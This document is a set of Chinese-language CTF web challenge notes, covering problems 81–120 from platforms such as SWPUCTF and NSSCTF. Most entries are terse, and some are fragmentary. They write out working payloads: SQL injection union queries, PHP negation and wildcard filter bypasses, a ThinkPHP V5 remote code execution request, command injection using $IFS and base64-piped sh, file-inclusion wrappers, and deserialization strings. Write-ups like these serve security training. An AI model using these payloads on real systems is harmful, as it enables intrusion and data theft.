






## 81.常见的搜集

根据提示 题目有三份flag

提示敏感文件

扫描python dirsearch -u 网址 -e*

1、


打开路径


2、


3、


总结 直接扫描后查看

常见的敏感文件：

```php
1、gedit备份文件，格式为filename~，比如index.php~
2、vim备份文件，格式为.filename.swp或者*.swo或者*.swn，比如.index.php.swp
3、robots.txt
```


## 82.easysql


内置的sql语句为sql="select".sql="select".post[‘query’]."||flag from Flag";

如果$post[‘query’]的数据为*,1，sql语句就变成了select *,1||flag from Flag，也就是select *,1 from Flag，也就是直接查询出了Flag表中的所有内容


## 83.SQL注入-1


把上面id改成2发现不一样的日记 


改成1’后无回显  1‘--+有回显 那就是字符型


1'order by 4--+ 开始无回显


-1' union select 1,2,3--+


-1'union select 1,2,database()--+ 

-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='note'--+ 

-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='fl4g'--+

-1' union select 1,2,fllllag from note.fl4g--+


## 84.hate_php（取反绕过）


第一个 过滤了(f|l|a|g|\.|p|h|\/|;|\"|\'|\`|\||\[|\]|\_|=)

第二个正则表达式过滤了PHP的内置函数

利用异或或者取反来绕过。


直接取反请求highlight_file(flag.php)

或者先system ls再cat flag.php

双重否?code=(~%97%96%98%97%93%96%98%97%8B%A0%99%96%93%9A)(~%99%93%9E%98%D1%8F%97%8F)

## 85.hate_php 2


上一题的绕过都不管用

所以这里只能用“通配符”
这里首先要说明，linux的所有指令都存储在文件夹里
比如常用的“cat”指令
也可以用/bin/cat来代替
然后就是linux的指令以及文件，可以用通配符*和？来代替
星号（ * ）可以用来代替0个及以上任意字符

问号(?)可以用来代替1个任意字符，比如 /???/??? => /bin/cat

（但是代替有个前提，搜索结果唯一或可以同时操作）
所以/bin/cat 可以用/ * * * / *  * *代替然后就是盲猜flag在/flag文件夹下
构造payload:`code=?><?=`/???/??? /????`?>`（就算不猜，也可以猜字符位数然后试？的个数，还有文件的层数）

```
?><?=`/???/???%20/???/???/????/*`?>
php使用短链接含义如下：
<?php echo `/bin/cat /var/www/html/index.php`?>
```

```
?code=?><?=`/???/??? /????`?>
php使用短链接含义如下：
<?php echo `/bin/cat /flag`?>
```



## 86.fileclude


include(&file)包含用php://filter编码读取flag.php的数据了。同时要满足file_get_contents($file2) === "hello ctf"这一条件。

关于file1：
?file1=php://filter/read=convert.base64-encode/resource=flag.php

关于file2：
file_get_contents是将文件中数据提取为字符串的函数，它与inclue()一样参数为文件名，所以直接file2=hello%20ctf行不通，要用data://协议构造数据流，使它当作php文件。

直接file2=hello%20ctf是不行的，因为file_get_contents()的参数也为文件名，直接file2=hello%20ctf时file2为字符串，需要用data://协议使它当做文件

?file2=data://text,plain,hello ctf


或者file2=php://input


## 87.inget



按提示GET输入id

比如我们提交的是 id=123

而到后端大概会呈现出来的部分内容就是 'id=123'

那么就加“使id闭合 再注入一个恒等式

简单的绕过 ?id=5' or 1=1--+ 

?id=1' or '1=1 --> 'id=1' or '1=1'


## 88.robots

直接查看robots.txt 后找到文件

## 89.mfw


是一个网站 猜测会不会有git泄露

发现有 那就在这做文章

查看源代码

打开flag.php没线索

那就下载git泄露文件

查看原代码

构造payload  /?page=').system('cat+./templates/flag.php');//  

;//绕过后面的语句

## 90.ics-06


点什么都没反应 除了报表中心

但选日期也没反应 注意到url里id=1 猜测sql注入

但是在测试闭合时 无论输入什么都会跳回去 那就试试爆破

想先爆破个10000，中间找到

## 91.PHP2



翻译就是介绍网站 那肯定要顶层文件index.php 打不开就看源代码index.phps

admin两次url编码（服务器直接会编码一次）

## 92.Web_php_include


strstr函数区分大小写 

1.(大小写绕过)用PHP://input 


2.data://协议

data://text/plain,........

data://text/plain,<?php system('ls')?>


## 94.unserialize3


## 95.simple_js


第一时间想到抓包去爆破 但抓包后发现没有能爆破的参数

随便输入后 再查看源代码

split()：拆分字符串。通过指定分隔符对字符串进行切片，并返回分割后的字符串列表（list）

String.fromCharCode()  将 Unicode 编码转为一个字符

h=你输入弹框内的内容
之后`alert`弹出`dechiffre(h)`的值

分析代码得 无论tab1是什么 最后输出p都是FAUX PASSWORD HAHA，那有可能teb1输出的数字就是flag

通过本题简单分析了JS代码

## 96.xff_referer

按要求更改xff和referfer

Referer:https://www.google.com
X-Forwarded-For: 123.123.123.123

## 97.command_execution


试试RCE注入

找可疑的打开 发现home里有flag

## 98.simple_php


简单的若比较绕过

## 99.baby_web


i题目明显提示去看index.php 但是会跳到1.php 那就抓包改

最后藏在语句里

## 100.php_rce


感觉是复现题 搜一搜ThinkPHP V5

```
index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=100
```


```
/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```


接着用rce命令代替woami


## 101.show web1


讲1000转为16进制 or 500%2b 500 or ~~1000 很多绕过方式

直接猜内部结构 sql注入?id=1 union select * from article; --+



## 102.[SWPUCTF 2021 新生赛]gift_F12


打开后直接查找

## 103.[SWPUCTF 2021 新生赛]jicao

学习json语句


## 104.[SWPUCTF 2021 新生赛]easy_md5

数组绕过


## 105.[SWPUCTF 2021 新生赛]include




文件包含漏洞 

?file=php://filter/read=convert.base64-encode/resource=flag.php


## 106.[SWPUCTF 2021 新生赛]easy_sql

刚打开有被吓到 看标头提示参数


判定为字符型注入

=1' order by 4--+报错

-1' union select 1,database(),database()--+


报表 group_concat(table_name) from information_schema.tables where table_schema='test_db'-- +

group_concat(column_name) from information_schema.columns where table_name='test_tb' -- +

flag%20from%20test_db.test_tb--+

## 107.[SWPUCTF 2021 新生赛]easyrce


最后加分号


## 108.[SWPUCTF 2021 新生赛]caidao

1.

```
wllm=echo `cat /flag`; 
因为内的内容相当于执行系统命令 
（也可以位为echo `tac /flag`）


```


2.wllm=var_dump(file_get_contents("/flag"));

3.wllm=system('cat /flag');

4.

## 109.[SWPUCTF 2021 新生赛]Do_you_know_http


接着看a.php

改XFF

看secretttt.php

## 110.[SWPUCTF 2021 新生赛]babyrce


抓包加cookie

打开文件 

尝试能用%09绕过空格

最后cat打开

## 111.[第五空间 2021]WebFTP


想碰碰运气先爆破 

感觉全爆破不是方法 那就猜账号是admin再爆 报不出放弃了

没有思路时

看到这题标签是git泄露（也是场景复现）

确定是git泄露，但好像githack都下不下来

那就看看有什么有用文件 用dirsearch看清楚些

一个个打开 找到了

## 112.[NCTF 2018]签到题

打开靶机是百度的镜像

抓包去掉secret.php

## 113.[SWPUCTF 2021 新生赛]PseudoProtocols


题目提示文件包含漏洞 wllm=php://filter/read=convert.base64-encode/resource=hint.php


按提示打开

用data://text/plain,写入

或者php://input写入


## 114.[NISACTF 2022]easyssrf


查看一下本地

看看有没有flag 127.0.0.1/flag

跟着线索走


过滤file协议 就用四个../查看 flag


或者filter伪协议


## 115.[BJDCTF 2020]easy_md5


看标头找到线索

输入**ffifdyop**后跳转


其实不用去赋值 直接levell14.php进入下一页面 

数组绕过


## 116.[NSSCTF 2022 Spring Recruit]ezgame

靶机是游戏


需要65分但很难 那就看看js代码 审计后直接改分数


## 117.[GXYCTF 2019]Ping Ping Ping


想cat flag时

发现过滤了空格，绕过后发现过滤了flag

先看看inedx.php

?ip=127.0.0.1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh

把flag.phpbase64编码 然后-d|sh执行（绕狗bash

或者）?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php 简单拼接

或者调用内联函数?ip=127.0.0.1;cat$IFS`ls`


## 118.AreUSerialz


序列化后 绕过部分字符

赋给str后 得到flag

或者用filter为协议

直接构造为payload


## 119.[SWPUCTF 2021 新生赛]ez_unserialize

进入靶机查看源代码


看看robots协议

后面就是反序列化

注意强比较 

构造payload：

?p=O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}解

## 120.[SWPUCTF 2021 新生赛]no_wakeup


进入class.php


以为wakeup处有sha1阻止我们构造 那就绕过wakeup 把hahaha后的数改为大于原先的数

得解

